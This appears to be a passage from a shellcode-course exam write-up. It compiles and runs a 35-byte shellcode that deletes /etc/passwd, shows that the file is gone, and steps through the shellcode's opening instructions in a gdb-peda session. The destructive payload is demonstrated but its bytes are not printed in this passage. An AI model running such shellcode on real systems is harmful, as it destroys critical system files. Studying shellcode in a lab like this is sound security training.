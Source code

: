 Let's compile and debug thanks to gdb:  
```bash
# gcc -o unlink unlink.c && chmod u+x ./unlink && ./unlink
Shellcode Length: 35
# ls -lrt /etc/passwd*
-rw------- 1 0 root 3025 mars   1 21:47 /etc/passwd-
-rw-r--r-- 1 0 root 3073 avril 22 13:48 /etc/passwd.backup
```  
  
Ok so we have our passwd backups but the */etc/passwd* file has been deleted.  Let's have a look to the shellcode (35 bytes long):  
```bash
# gdb -q unlink
Reading symbols from unlink...(no debugging symbols found)...done.
gdb-peda$ print &shell
$1 = (<data variable, no debug info> *) 0x804a040 <shell>
gdb-peda$ br *&shell
Breakpoint 1 at 0x804a040
gdb-peda$ r
Starting program: /root/Documents/pentest/certs/slae/exam/assignment6.2/unlink 
Shellcode Length: 35
[----------------------------------registers-----------------------------------]
EAX: 0x804a040 --> 0x315e11eb 
EBX: 0x0 
ECX: 0x7fffffeb 
EDX: 0xb7faf870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fae000 --> 0x1b2db0 
EBP: 0xbffff238 --> 0x0 
ESP: 0xbffff21c --> 0x8048479 (<main+62>: mov    eax,0x0)
EIP: 0x804a040 --> 0x315e11eb
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a03a: add    BYTE PTR [eax],al
   0x804a03c: add    BYTE PTR [eax],al
   0x804a03e: add    BYTE PTR [eax],al
=> 0x804a040 <shell>: jmp    0x804a053 <shell+19>
 | 0x804a042 <shell+2>: pop    esi
 | 0x804a043 <shell+3>: xor    eax,eax
 | 0x804a045 <shell+5>: xor    ecx,ecx
 | 0x804a047 <shell+7>: xor    edx,edx
 |->   0x804a053 <shell+19>:  call   0x804a042 <shell+2>
       0x804a058 <shell+24>:  das
       0x804a059 <shell+25>:  gs je  0x804a0bf
       0x804a05c <shell+28>:  das
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff21c --> 0x8048479 (<main+62>:  mov    eax,0x0)
0004| 0xbffff220 --> 0x1 
0008| 0xbffff224 --> 0xbffff2e4 --> 0xbffff480 ("/root/Documents/pentest/certs/slae/exam/assignment6.2/unlink")
0012| 0xbffff228 --> 0xbffff2ec --> 0xbffff4bd ("XDG_VTNR=2")
0016| 0xbffff22c --> 0x804a040 --> 0x315e11eb 
0020| 0xbffff230 --> 0xb7fae3dc --> 0xb7faf1e0 --> 0x0 
0024| 0xbffff234 --> 0xbffff250 --> 0x1 
0028| 0xbffff238 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804a040 in shell ()
gdb-peda$ x/17i $eip
=> 0x804a040 <shell>: jmp    0x804a053 <shell+19>
   0x804a042 <shell+2>: pop    esi
   0x804a043 <shell+3>: xor    eax,eax
   0x804a045 <shell+5>: xor    ecx,ecx
```